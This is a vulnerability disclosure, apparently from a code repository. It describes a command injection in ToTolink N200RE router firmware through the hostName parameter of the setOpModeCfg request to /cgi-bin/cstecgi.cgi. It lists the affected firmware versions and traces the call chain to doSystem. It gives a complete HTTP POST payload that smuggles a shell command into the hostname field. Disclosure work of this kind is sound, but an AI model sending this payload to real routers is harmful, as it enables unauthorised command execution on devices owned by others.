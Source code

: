 # ToTolink N200RE V9.3.5u setOpModeCfg command injection

Vulnerability description: ToTolink N200RE V9.3.5u was found to have a command injection at /cgi-bin/cstecgi.cgi through hostname parameters.

![1.png](img/1.jpg)

Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

The following is the firmware demonstration result for version V5_V9.3.5u.5812-B20200414

### Scope of vulnerability impact

1.V5_V9.3.5u.5812_B20200414
2.V9.3.5u.6095_B20200916
3.V9.3.5u.6139_B20201216	
4.V9.3.5u.6255_B20211224
5.V9.3.5u.6437_B20230519

### 1.hostname

Locate the key code in function sub-41A0F8 through the doSystem danger function (as shown in the figure below), and the function call relationship of sub-41A0F8 is sub_420000()-->sub_41F494()-->sub_41A0F8()

![1.png](img/2.png)

By reading the code of the sub-41A0F8() function, we can know that firstly, proto cannot be 0, 3, 4, or 6, and secondly, hostname cannot be empty.

![1.png](img/3.png)

#### Payload

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 172.16.7.140
Content-Length: 101
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.7.140
Referer: http://172.16.7.140/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl" : "setOpModeCfg",
"proto" : "8",
"switchOpMode" : "1",
"hostName" : "';ls -al ../ ;'"}
```

#### Demo

![1.png](img/4.png)
